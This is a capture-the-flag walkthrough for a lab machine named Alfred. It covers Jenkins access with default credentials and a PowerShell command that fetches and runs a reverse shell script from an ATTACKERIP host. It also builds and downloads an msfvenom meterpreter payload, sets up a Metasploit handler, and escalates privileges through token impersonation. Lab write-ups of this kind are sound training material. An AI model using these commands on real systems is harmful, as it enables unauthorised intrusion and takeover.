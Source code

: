 # Alfred

### **Tasks**:

1.  **Initial Access**:

    1. Nmap Scan with `nmap -T5 -sV ip` reveals - 80,3389.8080 open where 80 has Microsoft IIS Server running and 8080 has Jetty 9.4.z snapshot and upon opening http://ip:8080 in browser we see it's a jenkin instance login page.
    2. Login with default credentials admin:admin, Go to Project > configure >General > Build >Execute Batch Command
    3. [Nishang](https://github.com/samratashok/nishang) is collection of PS scripts used for enumeration, Windows PE, reverse shell etc., we will be using [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) for this task , host the script using python http server in port 80.&#x20;
    4. Start netcat listener at port 1337 in attacker terminal, type `powershell iex (New-Object Net.WebClient).DownloadString(‘http://ATTACKERIP:80/Shells/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress ATTACKERIP -Port 1337` in textbox below Execute Batch Command , save and start build to get shell in netcat.
    5. `cd C:\Users\bruce\Desktop` and `type user.txt` to obtain user flag.


2. **Switching Shells**:
   1. Generate payload using `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=ATTACKERIP LPORT=ATTACKERPORT -f exe -o shell.exe`&#x20;
   2. Download payload to victim using `powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKERIP:80/Shells/shell.exe','shell.exe')"`.
   3. Set up handler in metasploit to start listening , `use exploit/multi/handler` ,`set PAYLOAD windows/meterpreter/reverse_tcp` , `set LHOST ATTACKERIP` , `set LPORT ATTACKERPORT`  & `run`
   4. `Start-Process shell.exe` to get meterpreter shell
3. **Privilege Escalation**:
   1. Run `whoami /priv` - SeDebugPrivilege, SeImpersonatePrivilege enabled
   2. In meterpreter shell run _`load incognito` to exploit this, `list_tokens -g` to list available tokens to impersonate , `impersonate_token "BUILTIN\Administrators"`_  to impersonate Admin token.
   3. `migrate pid` - migrate to safe process like services.exe
   4. Now run `pwd` - you will be inside C:\Windows\System32\ , `cd config` , `cat root.txt` to obtain root flag and submit !!!

